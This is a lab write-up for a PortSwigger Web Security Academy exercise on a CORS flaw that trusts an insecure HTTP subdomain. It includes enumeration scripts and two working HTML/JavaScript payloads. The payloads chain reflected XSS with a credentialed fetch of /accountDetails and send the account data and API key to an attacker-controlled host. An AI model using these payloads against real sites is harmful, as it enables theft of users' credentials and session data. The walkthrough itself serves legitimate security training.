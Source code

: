 ### CORS Vulnerability With Trusted Insecure Protocols Lab
#### Entities
Asset: https://0a130058040d652e81193421003200fb.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a130058040d652e81193421003200fb.web-security-academy.net"
crawl_links() {
  local url="$1"
  page_links=$(curl -s "$url" | grep -o 'href="[^"]*"' | cut -d'"' -f2)
  for path in $page_links; do
    full_url="${url}${path}"
    echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null "$full_url")"
    subpage_links=$(curl -s "$full_url" | grep -oP "(http|https)://\S+(?=['\"])")
    for sublinks in $subpage_links; do
      echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null "$sublinks")"
    done
  done
}
crawl_links "$URL"
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set. Also observed a subdomain url that raised a 400 Bad Request which returns a 200 status when a value of 1 is inserted in the storeId parameter.

![Enumeration](01-enumerate-index-route.png)  

#### Exploration
Explored `/?productId=20&storeId=` of the publicly accessible `stock` subdomain. Testing for Operating System Command Injection (OSCI) with `id` and `whoami` respectively, and Cross Site Scripting (XSS) with `<script>alert(1)</script>` and `<script>alert(2)</script>` respectively to discover the `productId` was vulnerable to XSS.

![Exploration](02-explore-trusted-insecure-protocols.png) 

Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, null and the subdomain. Observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

#### Exploitation
Now exploit yourself while logged in with the below scripts. This requires a tls exploit server
```shell
<html lang="en">
<body>
  <script>
    var appServer = '0a130058040d652e81193421003200fb.web-security-academy.net';
    var exploitServer = 'https://ead23724e78d41.lhr.life/?log=';
    var productId = `<script>fetch('https://${appServer}/accountDetails',{credentials:'include'}).then(res=>res.text()).then(data=>{fetch('${exploitServer}'+ data)}).catch(error=>alert(error));<\/script>`;
    window.location = `http://stock.${appServer}/?productId=${encodeURIComponent(productId)}&storeId=1`;
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html and on a seperate terminal expose it for global access with `ssh -o StrictHostKeyChecking=no -R 80:localhost:8000 nokey@localhost.run`. Then run `google-chrome https://ead23724e78d41.lhr.life` or even `google-chrome "http://stock.0a130058040d652e81193421003200fb.web-security-academy.net/?productId=<script>fetch('https://0a130058040d652e81193421003200fb.web-security-academy.net/accountDetails',{credentials:'include'}).then(res=>res.text()).then(data=>alert(data));</script>&storeId=1"` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html>
<body>
  <script>
    var appServer = "0a130058040d652e81193421003200fb.web-security-academy.net";
    var exploitServer = "exploit-0a44002f04486514816533fd01e70075.exploit-server.net";
    var productId = `<script>var xhr = new XMLHttpRequest();xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE) {fetch('https://${exploitServer}/log=' %2b xhr.responseText)};};xhr.open('GET', 'https://${appServer}/accountDetails', true); xhr.withCredentials = true;xhr.send();%3c/script>`;
    document.location = `http://stock.${appServer}/?productId=${productId}&storeId=1`;
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](03-exploit-trusted-insecure-protocols.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](04-exfiltrate-trusted-insecure-protocols-spoil.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22LdfibNvk2PryjBjiILDF6c7jJlgtMBKL%22,%20%20%22sessions%22:%20[%20%20%20%20%22lbUa9NrpLLfrfnpcRkXcV3MxwgO0TyTn%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-insecure-protocols-spoil.json
```

![Solution](05-lab-solution.png) 

#### Resources
- https://portswigger.net/web-security/cors/lab-breaking-https-attack
- https://github.com/knoxknot/portswiggerlabs/tree/main/cors/03-cors-vulnerability-with-trusted-insecure-protocols